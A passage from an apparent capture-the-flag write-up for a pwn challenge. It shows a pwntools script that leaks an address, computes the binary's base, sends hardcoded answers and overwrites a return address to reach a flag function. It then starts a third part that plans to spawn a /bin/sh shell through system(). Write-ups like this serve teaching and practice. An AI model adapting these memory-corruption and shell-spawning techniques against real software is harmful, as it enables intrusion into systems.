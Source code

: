 ```python
p.sendline() # the program expects a second newline for some reason

p.recvline() 
out = p.recvline()
addr = extract_address(out)

base_addr = int(addr, 16) - 0x001020c7
flag_function_addr = base_addr + 0x00101f18

p.sendlineafter(b'Type 1 for yes or anything else for no:', b'n')
p.sendline(b'57005')
p.sendline(b'bubbles1')

payload = padding + p64(flag_function_addr)

p.sendlineafter(b'You\'re admin! We can trust you! Give us your instruction!', payload)

p.interactive()
```

Then execute it `python exploit2.py` (you would uncomment the remote part if it was the actual challenge)

![second flag](./img/second_flag.png)


## Part 3 (pwn, 300 pts)

For the last part it is suggested that we try running a `/bin/sh` shell after obtaining the second flag so let's do that.

Looking at the available functions, we see `testsystem` and `popopops` that are of interest. All we have to do is load `/bin/sh` in `rdi` (since `rdi` is the first argument of functions in 64 bit assembly) and then call `system`.

